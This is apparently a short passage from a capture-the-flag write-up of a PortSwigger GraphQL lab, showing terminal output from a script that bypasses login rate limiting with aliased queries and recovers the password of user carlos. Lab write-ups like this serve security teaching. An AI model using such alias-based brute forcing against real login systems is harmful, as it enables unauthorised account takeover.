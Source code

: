 ```shell
┌[siunam♥Mercury]-(~/ctf/Portswigger-Labs/Testing-GraphQL-APIs)-[2023.07.07|16:38:28(HKT)]
└> python3 bypass_rate_limit.py 
[*] Sending the login aliases query...
[+] Found the correct password!
[+] Username: carlos, password: 112233
```

**Let's login as user `carlos`!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-4/images/Pasted%20image%2020230707163928.png)
